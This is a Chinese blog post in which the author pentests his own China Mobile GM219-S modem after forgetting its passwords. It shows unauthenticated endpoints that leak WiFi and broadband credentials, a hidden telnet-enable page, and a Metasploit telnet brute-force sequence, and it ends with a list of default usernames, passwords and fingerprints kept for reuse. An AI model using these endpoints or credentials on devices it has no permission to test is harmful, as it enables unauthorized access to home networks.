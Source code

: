 ```yaml
---
layout: post
author: Vulkey_Chen
title: "记一次移动光猫（GM219-S）安全测试"
date: 2019-03-12
music-id: 1348044876
permalink: /archives/2019-03-12/1
description: "记一次移动光猫（GM219-S）安全测试"
---
```


# 前言

过个年，WiFi密码忘记了...光猫管理密码也忘记了（这个光猫也不支持物理按钮重置设置），但是手机还连着WiFi，正规操作找回不了密码，那就用咱们测试的思维来试试PWN掉这个路由器。

# 过程

## 未授权获取WiFi连接密码

还好之前没闲着，发现管理的几个未授权访问的接口如下:

获取宽带账号密码: `/GET_USER_WAN_PPP_INFO.json`

获取 WLAN 连接信息: `/GET_WLAN_LINK_INFO.json`

获取 DHCP 信息: `/GET_NET_DHCP_INFO.json`

手机访问 `http://192.168.1.1/GET_WLAN_LINK_INFO.json` ，获取密码：xxx，电脑连接登录

## 信息收集

### 端口收集结果

```shell
Scanning promote.cache-dns.local (192.168.1.1) [1080 ports]
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 8080/tcp on 192.168.1.1
```

### 目录扫描结果

获得的一些目录：

```shell
/login.html
/login.asp
/index.asp
/telnet.asp
/upgrade.asp
...
```

## 突破口

在目录扫描的时候，发现`/telnet.asp` -> 跳转到 `/cgi-bin/telnet.asp` 如下图所示界面：

![open_telnet](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/open_telnet.png)

这个功能可以开启光猫的`telnet`服务，先开启，然后再使用Nmap扫描下端口：

```shell
Scanning promote.cache-dns.local (192.168.1.1) [1080 ports]
Discovered open port 8080/tcp on 192.168.1.1
Discovered open port 80/tcp on 192.168.1.1
Discovered open port 8023/tcp on 192.168.1.1
```

发现多了个8023端口，其对应的服务果然是telnet：

```shell
8023/tcp open  telnet
| fingerprint-strings:
|   GenericLines:
|     Star-Net Broadband Router
|     Login:
|     Password:
|   GetRequest:
|     Star-Net Broadband Router
|     Login: GET / HTTP/1.0
|     Password:
|   Help:
|     HELP
|     Star-Net Broadband Router
|     Login: Password:
|   NCP:
|     Star-Net Broadband Router
|     Login: DmdT^@^@^@
|     ^@^@^@^A^@^@^@^@^@
|   NULL:
|     Star-Net Broadband Router
|     Login:
|   RPCCheck:
|     Star-Net Broadband Router
|     Login:
|     ^@^@(r
|   SIPOptions:
|     Star-Net Broadband Router
|     Login: OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|     Password:
|   tn3270:
|     ^@IBM-3279-4-E
|     ^YStar-Net Broadband Router
|_    Login:
```

telnet开启，爆破一波走起。（Caimima生成个密码口令）

![caimima](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/caimima.png)

试了nmap貌似没啥用，开个msfconsole来爆破：

```shell
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 192.168.1.1 #设置模板
set RPORT 8023 #设置端口
set USER_FILE /root/user.txt #设置用户字典
set PASS_FILE /root/pass.txt #设置密码字典
exploit 192.168.1.1 #启动
```

幸运的是爆破出来了，是组合弱口令：

![telnet_brute](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/telnet_brute.png)

## 获取密码

运行`telnet 192.168.1.1 8023`输入账号密码进去，执行`sh`发现可以直接进入shell：

![telnet_shell](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/telnet_shell.png)

接下来就是找密码到处瞎翻（没有PWN路由器的经验，很难受），执行 `ls -a -l` 发现有软链接，很多指向了`/tmp`目录：

![ls](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/ls.png)

于是进入`/tmp`目录，到处翻腾：

![tmp](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/tmp.png)

利用这几个关键词看看是否有文件中包含了：`admin`、`CMCC`(中国移动)、`password`、`user`

e.g. `grep 'admin' ./*`，等了老半天了，发现`/tmp/ctromfile.cfg`文件内有点东西：

![admin](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/admin.png)

复制密码登录，怼进去：

![cmccadmin](https://vulkey.oss-cn-hangzhou.aliyuncs.com/cmcc-pentest/cmccadmin.png)

## 信息整合

做完测试并针对测试过程的信息进行整合，最后形成字典以便后面再次遇到～

- 通过读配置文件获取的一系列用户名、密码：`9vvrr、admin、aDm8H%MdA、CMCCAdmin、telnetuser、user`

- 文件、目录路径：
    - `/GET_USER_WAN_PPP_INFO.json`
    - `/GET_WLAN_LINK_INFO.json`
    - `/GET_NET_DHCP_INFO.json`
    - `/telnet.asp`
    - `/index.asp`
    - `/user.html`
    - `/upgrade.asp`
    - `/cgi-bin/`
    - `/content.asp`

- 指纹特征：
    - 标题：`HGU LOGIN`
    - 图片：`/webstyle/images/login-mobile-qrcode-anhui.png -> 23cb4f5e63e0cd47f8788a6ca3558eab`
    - JS：`/webstyle/js/br_login_nc.js`

# 结尾

最后我只是默默的把user用户密码改了一下～